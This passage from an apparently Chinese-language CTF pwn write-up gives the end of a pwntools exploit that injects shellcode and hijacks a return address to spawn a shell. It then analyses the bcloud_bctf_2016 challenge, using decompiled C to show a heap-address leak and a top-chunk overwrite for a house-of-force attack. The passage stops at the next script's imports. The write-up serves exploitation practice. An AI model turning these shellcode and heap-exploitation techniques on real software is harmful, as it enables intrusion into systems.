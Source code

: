 ```python

p.recvuntil("gift->")
ad=int(p.recv(10),16)
log.info("ad: "+hex(ad))
payload=asm(shellcraft.sh())
payload=payload.ljust(0x48,"a")+"aaaa"+p64(ad)
p.recvuntil("do?\n")
#gdb.attach(p)
p.sendline(payload)
p.interactive()
```

### 4.bcloud_bctf_2016 ###
32位，有栈保护，可以改got表，没pie
这个题最主要的漏洞点在于这两个函数
```c
unsigned int sub_80487A1()
{
  char s[64]; // [esp+1Ch] [ebp-5Ch] BYREF
  char *v2; // [esp+5Ch] [ebp-1Ch]
  unsigned int v3; // [esp+6Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  memset(s, 0, 0x50u);
  puts("Input your name:");
  sub_804868D((int)s, 64, 10);//这个函数中有个=0截断
  v2 = (char *)malloc(0x40u);
  dword_804B0CC = (int)v2;
  strcpy(v2, s);
  sub_8048779(v2);
  return __readgsdword(0x14u) ^ v3;
}
```
这个函数中需要注意栈，s后面就是v2,我们在输入64个字符后，再创建的堆，又因为32位，在输出s的时候就可以泄露第一个堆的地址
第二个函数
```c
unsigned int sub_804884E()
{
  char s[64]; // [esp+1Ch] [ebp-9Ch] BYREF
  char *v2; // [esp+5Ch] [ebp-5Ch]
  char v3[68]; // [esp+60h] [ebp-58h] BYREF
  char *v4; // [esp+A4h] [ebp-14h]
  unsigned int v5; // [esp+ACh] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(s, 0, 0x90u);
  puts("Org:");
  sub_804868D((int)s, 64, 10);
  puts("Host:");
  sub_804868D((int)v3, 64, 10);
  v4 = (char *)malloc(0x40u);
  v2 = (char *)malloc(0x40u);
  dword_804B0C8 = (int)v2;
  dword_804B148 = (int)v4;
  strcpy(v4, v3);
  strcpy(v2, s);
  puts("OKay! Enjoy:)");
  return __readgsdword(0x14u) ^ v5;
}
```
和第一个函数是一样的原理，v3可以覆盖top_chunk，之后就是比较常规的house of force
```python
from pwn import *
from LibcSearcher import *
```